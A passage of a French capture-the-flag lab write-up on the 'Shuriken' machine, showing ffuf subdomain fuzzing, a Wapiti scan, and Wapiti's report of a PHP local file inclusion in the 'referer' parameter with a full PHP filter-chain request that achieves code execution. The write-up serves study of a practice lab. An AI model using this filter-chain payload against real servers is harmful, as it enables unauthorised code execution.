 J'ai cherché de possibles autres sous-domaines à l'aide de `ffuf` :

```bash
ffuf -w fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.56/ -H "Host: FUZZ.shuriken.local" -fs 6021
```

Mais cela ne m'a remonté que `broadcast` que je connais déjà.

J'ai lancé [Wapiti](https://wapiti-scanner.github.io/) sur l'URL avec la commande suivante :

```bash
wapiti -u 'http://shuriken.local/index.php?referer=toto' --scope url -v2
```

et il a aussitôt trouvé une faille d'inclusion :

```
---
PHP local inclusion leading to code execution in http://shuriken.local/index.php via injection in the parameter referer
Evil request:
    GET /index.php?referer=php%3A%2F%2Ffilter%2Fconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP866.CSUNICODE%7Cconvert.iconv.CSISOLATIN5.ISO_6937-2%7Cconvert.iconv.CP950.UTF-16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.865.UTF16%7Cconvert.iconv.CP901.ISO6937%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L6.UNICODE%7Cconvert.iconv.CP1282.ISO-IR-90%7Cconvert.iconv.CSA_T500.L4%7Cconvert.iconv.ISO_8859-2.ISO-IR-103%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.DEC.UTF-16%7Cconvert.iconv.ISO8859-9.ISO_6937-2%7Cconvert.iconv.UTF16.GB13000%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1162.UTF32%7Cconvert.iconv.L4.T.61%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.iconv.R9.ISO6937%7Cconvert.iconv.OSF00010100.UHC%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP-AR.UTF16%7Cconvert.iconv.8859_4.BIG5HKSCS%7Cconvert.iconv.MSCP1361.UTF-32LE%7Cconvert.iconv.IBM932.UCS-2BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP-AR.UTF16%7Cconvert.iconv.8859_4.BIG5HKSCS%7Cconvert.iconv.MSCP1361.UTF-32LE%7Cconvert.iconv.IBM932.UCS-2BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L6.UNICODE%7Cconvert.iconv.CP1282.ISO-IR-90%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.BIG5HKSCS.UTF16%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF16%7Cconvert.iconv.ISO6937.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF32%7Cconvert.iconv.L6.UCS-2%7Cconvert.iconv.UTF-16LE.T.61-8BIT%7Cconvert.iconv.865.UCS-4LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.MAC.UTF16%7Cconvert.iconv.L8.UTF16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSIBM1161.UNICODE%7Cconvert.iconv.ISO-IR-156.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.INIS.UTF16%7Cconvert.iconv.CSIBM1133.IBM943%7Cconvert.iconv.IBM932.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.base64-decode%2Fresource%3Dphp%3A%2F%2Ftemp HTTP/1.1
```